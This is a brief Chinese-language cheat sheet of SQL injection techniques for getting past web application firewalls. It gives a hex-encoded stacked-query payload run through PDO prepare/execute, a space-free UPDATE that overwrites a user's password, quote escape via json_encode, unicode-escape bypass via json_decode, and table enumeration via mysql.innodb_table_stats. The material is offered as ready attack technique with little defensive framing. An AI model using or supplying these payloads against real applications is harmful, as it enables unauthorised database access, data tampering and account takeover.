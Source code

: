 ![](img/pdo.png)

## pdo多语句执行

利用pdo可以多语句执行，可以用如下语句绕过一些waf限制

```
set%20@x=0x73656c65637420736c656570283130293b;prepare%20a%20from%20@x;execute%20a;
```

条件

 - `PDO::ATTR_EMULATE_PREPARES` 为`true` 否则预编译阶段就会报错

## 不用空格和`/*`执行语句

```SQL
update(user)set`password`='1'where`id`=1;
```

## json_encode

json_encode的时候会转义`\`，从而导致单引号逃逸，产生sql注入

## json_decode

json_decode的时候会进行unicode解码，可以通过传入`\u003d`之类的unicode字符绕过waf

## innodb

- mysql>5.7
- 数据库引擎是innodb

可以通过`mysql.innodb_table_stats`查询表名